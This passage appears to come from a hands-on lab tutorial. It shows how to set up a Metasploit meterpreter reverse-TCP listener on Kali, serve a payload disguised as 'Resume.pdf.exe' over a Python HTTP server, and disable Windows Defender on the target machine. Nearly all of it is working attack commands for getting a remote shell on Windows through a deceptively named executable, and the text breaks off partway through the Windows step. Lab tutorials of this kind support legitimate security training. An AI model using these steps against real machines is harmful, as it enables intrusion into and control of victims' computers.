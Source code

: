 Show current options:

```bash
options
```

Note: The **default payload** is usually `generic/shell_reverse_tcp`. We’ll change it to match our malware:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

Press `Tab` if unsure—it helps autocomplete!

Now re-check options:

```bash
options
```

Set the correct LHOST:

```bash
set LHOST <Kali IP>
set LHOST 192.168.20.11
```

Start the listener:

```bash
exploit
```

🎯 You are now listening for connections on port 4444.

---

### 🌐 Step 5: Share Malware via HTTP Server

In a **new terminal tab**, make sure you're in the same directory as `Resume.pdf.exe`, then start a Python HTTP server:

```bash
python3 -m http.server 9999
```

✅ Use any available port (e.g., 9999).

Your Kali machine is now hosting the malware at:

```
http://192.168.20.11:9999
```

---

### 🪟 Step 6: On the Windows Test Machine

1. **Disable Windows Defender**:
    
    - Go to:  
        `Windows Security > Virus & threat protection > Manage Settings`
        